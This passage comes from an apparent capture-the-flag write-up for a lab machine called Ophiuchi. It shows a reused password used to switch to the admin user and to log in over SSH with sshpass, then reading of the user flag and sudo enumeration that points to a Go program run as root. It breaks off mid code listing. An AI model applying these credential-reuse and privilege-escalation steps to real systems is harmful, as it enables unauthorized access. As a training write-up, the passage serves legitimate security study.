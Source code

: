 
The username here matches the username from the host. I’ll see if the password
is reused. It is:

    
    
    tomcat@ophiuchi:~$ su admin -
    Password: 
    admin@ophiuchi:/opt/tomcat$
    

I can also connect over SSH:

    
    
    oxdf@parrot$ sshpass -p "whythereisalimit" ssh admin@10.10.10.227                                                                       ...[snip]...
    admin@ophiuchi:~$
    

And grab `user.txt`:

    
    
    admin@ophiuchi:~$ cat user.txt
    0b6d65ef************************
    

## Shell as root

### Enumeration

#### sudo

`sudo -l` shows that admin can run a specific Go program as root:

    
    
    admin@ophiuchi:~$ sudo -l
    Matching Defaults entries for admin on ophiuchi:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User admin may run the following commands on ophiuchi:
        (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
    

#### wasm-functions

The `index.go` program reads in `main.wasm` and uses it to create a new `wasm`
instance:

    
    
    admin@ophiuchi:/opt/wasm-functions$ cat index.go 
    package main
    
    import (
            "fmt"
            wasm "github.com/wasmerio/wasmer-go/wasmer"
            "os/exec"
            "log"
    )
    